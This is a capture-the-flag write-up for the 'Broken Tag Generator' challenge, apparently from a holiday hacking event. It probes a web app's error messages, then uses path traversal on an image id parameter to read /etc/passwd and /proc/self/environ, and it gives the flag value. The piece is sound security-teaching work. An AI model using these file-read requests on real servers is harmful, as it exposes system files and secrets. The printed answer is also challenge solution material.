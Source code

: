 # 8) Broken Tag Generator
Dificulty: 4/5

![Difficulty](../../img/Dificulty4.png)

Help Noel Boetie fix the Tag Generator (https://tag-generator.kringlecastle.com/) in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.

ANSWER: JackFrostWasHere

![Access](8-Broken-Tag-Generator-access.png)

## Finding the vulnerability
After requesting the URL https://tag-generator.kringlecastle.com/image the server sends a hint of the possible vulenrability that is visible in the browser but curl or burp give more information, where we can see this response use `501` http status code.
```
HTTP/1.1 501 Not Implemented
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:22:22 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 80
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN

<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: ID is missing!</p>
```

Next request, lets attempt a LFI on the `id` parameter using a well known file `/etc/passwd`, the request failed but the error message is different, this time the server sends a `404` not found with the message route not found in `/app/lib/app.rb`.
```
HTTP/1.1 404 Not Found
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:24:33 GMT
Content-Type: image/jpeg
Content-Length: 81
Connection: close
X-Content-Type-Options: nosniff

<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
```

This means that the application may prepend a fixed string to our request so lets improve our previous request with a path traversal.
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:30:00 GMT
Content-Type: image/jpeg
Content-Length: 966
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
```

Now we know that it sucessfully retrieves files from the file system, the target is to obtain the value of the `GREETZ` environmental variable. To get all environmental variables of the runnin process we can send the request to https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 21 Dec 2020 02:33:44 GMT
Content-Type: image/jpeg
Content-Length: 399
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=cbf2810b7573 RUBY_MAJOR=2.7 RUBY_VERSION=2.7.0 RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343 GEM_HOME=/usr/local/bundle BUNDLE_SILENCE_ROOT_WARNING=1 BUNDLE_APP_CONFIG=/usr/local/bundle APP_HOME=/app PORT=4141 HOST=0.0.0.0 GREETZ=JackFrostWasHere HOME=/home/app 
```

ANSWER: JackFrostWasHere